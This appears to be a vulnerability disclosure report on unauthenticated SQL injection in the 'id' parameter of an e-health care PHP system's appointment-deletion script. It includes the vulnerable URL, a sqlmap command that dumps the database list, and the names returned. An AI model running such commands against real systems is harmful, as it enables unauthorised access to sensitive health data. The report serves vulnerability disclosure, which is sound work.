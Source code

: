 # E-Health Care System IN PHP has sql injection vulnerability via delete_user_appointment_request.php

## supplier
https://code-projects.org/e-health-care-system-in-php-css-js-and-mysql-free-download/
## Vulnerability file
delete_user_appointment_request.php
## describe
No authentication or permissions are required，an unrestricted SQL injection attack exists in delete_user_appointment_request.php of  E-Health Care System . The parameters that can be controlled are as follows: $_GET['id'] . This function executes the $id  parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

## code analysis
The $id parameters of the delete_user_appointment_request.php  are not filtered and concatenated into the SQL statement for execution.

![image-20241105120045938](https://github.com/user-attachments/assets/4d20d2ba-27a1-4bb0-86ca-33e0beae9697)



## POC

this is vulnerable url.

```
http://healthcare/Doctor/delete_user_appointment_request.php?id=1
```

excute the sqlmap command to get dbs.

```
 python sqlmap.py -u "http://healthcare/Doctor/delete_user_appointment_request.php?id=1" -p "id" --dbs
```

see the results.

get Sensitive database name：information_schema,bloodbank,crud...

![image-20241105120313329](https://github.com/user-attachments/assets/ddff18cb-f46c-4d7a-94be-25dac43e09ab)